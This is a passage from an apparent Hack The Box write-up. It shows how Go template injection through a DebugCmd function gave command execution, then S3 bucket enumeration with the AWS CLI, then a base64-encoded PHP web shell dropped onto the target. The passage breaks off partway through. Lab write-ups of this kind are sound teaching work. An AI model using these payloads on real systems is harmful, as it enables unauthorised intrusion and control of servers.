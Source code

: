 ```
It isn’t used anywhere else in the page, but it exists.  [Using Functions Inside Go Templates](https://www.calhoun.io/intro-to-templates-p3-functions/) This post talks about how to reference objects (including functions) from the templating engine using a .function_name. Submitting `{{ .DebugCmd "whoami" }}` returns proof of execution.


![image](https://user-images.githubusercontent.com/69868171/132512744-2997add4-3b55-4741-9d75-b6ef965291f1.png)

Boom we have RCE was stuck here for long man i keep trying to get a reverse shell back to my terminal but no luck i try diff reverse shell payloads but got nothing let try checking the hostname.

![image](https://user-images.githubusercontent.com/69868171/132513337-49747eab-fd7f-4a8b-b1e8-792a8bca3ce1.png)

Aws Cool and seems we are in docker env also and the hostname give a clear hint that we are dealing with s3 bucket.

![image](https://user-images.githubusercontent.com/69868171/132517332-7a258be7-147c-469b-a731-f3310fb15580.png)

### AWS Command

```
aws s3 ls  // to see buckets
```

![image](https://user-images.githubusercontent.com/69868171/132520836-c7719da0-9acd-4502-8de7-032e9dbd36ce.png)

```
aws s3 ls s3://website
```

![image](https://user-images.githubusercontent.com/69868171/132521242-432ad01b-5803-42b6-abad-f6d91158bada.png)

Ahhh seems the buckets is on port 80 nice now let try to upload a file on the target.

### UPLOADING A FILE WITH THE RCE AND USING AWS To TRANSFER IT TO PORT 80

```
<?php echo system($_GET["cmd"]); ?>
```

![image](https://user-images.githubusercontent.com/69868171/132523820-a6506c70-7630-4468-8c17-461fcc3626c6.png)

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/retired/10.10.11.113]
└─$ cat shell.php | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz4K
```

![image](https://user-images.githubusercontent.com/69868171/132524964-f700a963-5407-49b8-a147-e609ebcc48da.png)

```
{{ .DebugCmd "echo PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz4K | base64 -d > /tmp/rev" }}
```

Let confirm if we have our file in the tmp dircetory.

```
